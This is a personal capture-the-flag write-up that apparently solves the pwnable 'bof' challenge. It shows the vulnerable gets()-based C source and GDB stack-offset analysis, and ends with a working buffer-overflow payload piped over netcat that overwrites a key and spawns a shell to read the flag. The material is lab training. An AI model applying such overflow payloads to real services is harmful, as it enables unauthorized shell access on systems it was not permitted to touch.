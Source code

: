 As usual there are the the executable and c program but there is no flag file. there is a readme file.
```bash
bof@ubuntu:~$ ls -l
total 24
-rwxr-xr-x 1 root bof  15300 Mar 26 13:03 bof
-rw-r--r-- 1 root root   342 Mar 26 13:09 bof.c
-rw-r--r-- 1 root root    86 Apr  3 16:03 readme
```

The readme file contained:
```
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
```

`nc` is short for netcat. So `nc 0 9000` is `netcat ip=0 port=9000`

next I opened the `bof.c` file
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

reading the code I saw that I needed to overflow `overflowme` to change the key variable in the memory.

Every function in c has a stack frame where all of its local variables are held.
this stack frame holds local variables and the passed arguments (such as key)

To start experimenting I copied the script to my local machine and started debugging the program.
Opening the program in GDB (GNU Debugger) I could see the locations of the vars in the stack

| var        | loc            |
| ---------- | -------------- |
| key        | 0x7fffffffdcbc |
| overflowme | 0x7fffffffdcc0 |

meaning that they right after each other
Knowing this I understood that I will not be able to change it. I decided to try and change the ret of the function to enter the if statement and run the `system` function call

After a week where I did not touch this CTF I came back with a fresh mind and started again.
I decided to take a closer look at the compiled assembly code and saw the offset where the key was stored in the stack

```assembly
; Moving 0xdeadbeef to the stack at rbp - 52
movl    %edi, -52(%rbp)
```

moving the lower 32 bits of rdx to where the base pointer is pointing at minus 52 bytes.

```
(gdb) x/4xb $rbp-52
0x7fffffffdcbc: 0xef    0xbe    0xad    0xde
```

now I needed to see where overflowme was stored relative to rbp and then I could try implementing the attack.
```
(gdb) p &overflowme
$12 = (char (*)[32]) 0x7fffffffdcc0
```

Now knowing that there are 4 bytes between them `0xDCC0 - 0xDCBC = 0x4`
Then I read what I wrote already and saw that I couldn't change key....
since the return address is saved before rbp I know that I will be able to access and change it.

seeing that there are 56 bytes between them:
- ret address: `rbp + 8 = 0x7fffffffdcf8`
- overflowme address: `rbp - 48 = 0x7fffffffdcc0`

to solve this I needed to keep the stack canary as it is but since this was a "Toddler's Bottle" challenge so I knew that something was wrong.

I decided to see if I did something wrong when copying this file to my local and saw the compile error I have done.
```
ophirky@opc:~/code$ file main
main: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c7b6c9189ceb22cd5c834beb4e310163294f679a, for GNU/Linux 3.2.0, with debug_info, not stripped
```

It was 64 bits. the original file was 32. The difference between th e64 bit and 32 bit is that the argument is passed via the stack in 32 bits and through rdi in 64 bits.

Now I had to just put the correct string in the pwnable challenge and use a simple buffer overflow to override key.

| value name     | size     |
| -------------- | -------- |
| key            | 4 bytes  |
| return address | 4 bytes  |
| ebp            | 4 bytes  |
| stack canary   | 4 bytes  |
| overflowme     | 32 bytes |

To run over the key I need to add to the buffer an additional 16 bytes including the address (12 without). so the input can look like this:
`b'A' * (44) + b'\xbe\xba\xfe\xca'`

Running:
```python
bof@ubuntu:~$ python3
>>> import subprocess
>>> t = b'A' * 44 + b'\xbe\xba\xfe\xca'
>>> subprocess.run(['./bof'], input=t)
```
did not work.

```
pwndbg> x $ebp
0xffffd518:     0xffffd538

pwndbg> x $ebp + 8
0xffffd520:     0xdeadbeef

pwndbg> x $ebp + 4
0xffffd51c:     0x565562c5
```

looking in gdb and the assembly I saw that 0x2c was subtracted from ebp when giving the allocation address. why?
doesn't really matter. just need to add that to the input
first success:
```
pwndbg> x/4xb $ebp + 8
0xffffd520:     0x41    0x41    0x41    0x41
```
This means that we ran over the key. now we just need to run it over with the correct values.

I tried running the exploit it self in gdb and saw that it does work but still did not execute the shell...
the comparison assembly line in gdb:
`► 0x5655623c <func+63> cmp dword ptr [ebp + 8], 0xcafebabe (0xcafebabe - 0xcafebabe)`

Now the exploit was working but for some reason the `system` function did not run...
I tried running the entire program in GDB without any breakpoints to see what errors rose (if any)
```bash
pwndbg> r < <(python2 -c "print b'A'*52 + b'\xbe\xba\xfe\xca'")
Starting program: /home/bof/bof < <(python2 -c "print b'A'*52 + b'\xbe\xba\xfe\xca'")
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0xf7fbf500 (LWP 1559836) vfork to child process 1559841]
[New inferior 2 (process 1559841)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 1559836 after child exec]
[Inferior 1 (process 1559836) detached]
process 1559841 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0x7ffff7d83740 (LWP 1559841) vfork to child process 1559845]
[New inferior 3 (process 1559845)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 1559841 after child exec]
[Inferior 2 (process 1559841) detached]
process 1559845 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Inferior 3 (process 1559845) exited normally]
*** stack smashing detected ***: terminated
```
So no errors rose and the shell did run. so I needed to understand why I could not interact with it...

After getting very mad and sad I researched and understood that it was not interactive since for some reason piping the payload closed the STDIN so I couldn't send any commands to the shell and I had no idea on how to solve this so I talked to a friend of mine that had done the same CTF and got  stuck on the exact same thing. He told me that he also had no idea and just told me that I need to add a `cat` command after the payload to leave it open. so that is what I did and it worked!
 ```bash
bof@ubuntu:~$ nc 0 9000 < <(python2 -c "print b'A'*52 + b'\xbe\xba\xfe\xca'"; cat)
cat flag
[flag🤫]
 ```
